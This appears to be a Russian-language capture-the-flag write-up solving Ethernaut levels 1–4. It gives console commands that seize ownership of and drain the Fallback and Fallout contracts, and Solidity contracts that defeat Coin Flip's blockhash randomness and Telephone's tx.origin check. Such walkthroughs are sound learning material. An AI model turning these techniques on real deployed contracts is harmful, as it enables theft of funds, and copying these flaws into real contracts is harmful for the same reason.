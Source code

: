 ![Ethernaut](https://ethernaut.openzeppelin.com/)

### 1. Fallback (*)
Две точки где можно сменить владельца. contribute() - не вариант - понадобится много транзакций и эфира.
А вот receive() - самое то, достаточно отправить на контракт немножко эфира. Только сначала надо всеже воспользоваться contribute()
>contribute({value: 1})
>sendTransaction({from: player, to: contract.address, value: 1})
>contract.withdraw()


### 2. Fallout (*)
Этот уровень озадачил меня своей простотой. Всего-то вызвать функцию, которая должна была иницировать контракт
>contract.Fal1out({value: 1000})

### 3. Coin Flip (**)
Здесь все просто - весь алгоритм есть в контракте-жертве. Напишу я контракт который будет все считать за меня и вызывать flip()
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract NoRandomness {
    address CoinFlip;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address cf) {
        CoinFlip = cf;
    }

    function flip() public returns (bool) {
        uint256 blockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;
        return ICoinFlip(CoinFlip).flip(side);
    }
}
```

### 4. Telephone (*)
Здесь, чтобы стать владельцем нужно писать контракт из которого вызвать changeOwner(player)
```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ITelephone {
    function changeOwner(address _owner) external;
}

contract BrokenPhone {

    function crack(address phone, address new_owner) external {
        ITelephone(phone).changeOwner(new_owner);
    }
}
```
